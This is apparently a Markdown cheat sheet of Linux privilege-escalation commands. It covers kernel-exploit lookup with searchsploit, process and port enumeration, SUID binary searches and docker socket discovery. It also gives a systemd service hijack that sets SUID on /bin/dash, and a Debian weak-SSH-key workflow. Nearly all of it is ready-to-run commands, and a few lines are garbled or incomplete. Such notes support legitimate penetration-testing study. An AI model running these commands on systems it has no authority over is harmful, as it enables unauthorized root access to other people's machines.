 # Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

### Check exploit

```bash
searchsploit linux kernel | grep -v dos | grep <kernel_version> | grep -i 'root|privilege|exploit'
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Docker**

```bash
# we look for docker.sock
find / -group docker -exec ls -la {} 2>/dev/null \;
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

---

## **Debian-ssh**

- [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)

```bash
git clone https://github.com/g0tmi1k/debian-ssh.git
de debian-ssh/our_tools/
tar xvjf ubunturoot.tar.bz2

cp dokeygen.sh 
chroot ubunturoot /dokeygen.sh 1 -t dsa -b 1024 -f /tmp/dsa_1024_1

ssh-keygen -l -E md5 -f ~/.ssh/id_rsa.

#add "PubkeyAcceptedKeyTypes +ssh-dss" into client ssh conf
#ssh -vvvvvvvvvvvvvvvvvvvvv helps to understand !
```


